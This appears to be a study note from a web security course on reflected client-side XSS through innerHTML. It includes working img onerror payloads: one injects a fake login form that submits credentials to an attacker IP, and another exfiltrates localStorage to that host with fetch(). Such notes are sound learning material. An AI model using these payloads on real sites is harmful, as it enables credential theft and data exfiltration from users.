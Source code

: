 ```yaml
---
tags:
- xss
---
```


# Reflected Client XSS

Reflected client XSS - is a XSS attack when an attacker sends payload from victim request to the server and server append this payload to the response and then this payload executes in Java Script functions.  Payload activates on client side. 

It is likes reflected server XSS but payload is not in DOM, payload located in JS functions and will have been added in DOM  by JS code. 

**Example**: 
Application uses construction like: 
```js
document.getElementById("welcome").innerHTML = "Welcome, " + params.name;
```
HTML5 specifies that a <\script> tag inserted with innerHTML should not execute. [[2023042618315454 Reflected Client XSS#^a9d7eb]]
But we can use another construction to execute js code, like this:
```html
<img src='x' onerror='alert(1)'>
```

Example of stealing password using img
```html
<img src='x' onerror='let formHtml = `<form action="http://192.168.49.55" method="get"><input type="text" class="form-control" id="floatingInput" placeholder="name@example.com" name="username"><input type="password" class="form-control" id="floatingPassword" placeholder="Password" name="password"></form>`;document.getElementsByTagName("body")[0].innerHTML = formHtml;'>
```

Stealing local storage
```html
<img src='x' onerror='let data = JSON.stringify(localStorage); let encodedData = encodeURIComponent(data); fetch("http://192.168.49.55/localStorage?data=".concat(encodedData));'>
```
## How attacker sends payload tho the victim request 
1. Through an  email, chat message or link to another site
## References
1. web200.Cross-Site Scripting Introduction and Discovery.Reflected Client XSS
2.   (Mozilla, 2021), [https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)  ^a9d7eb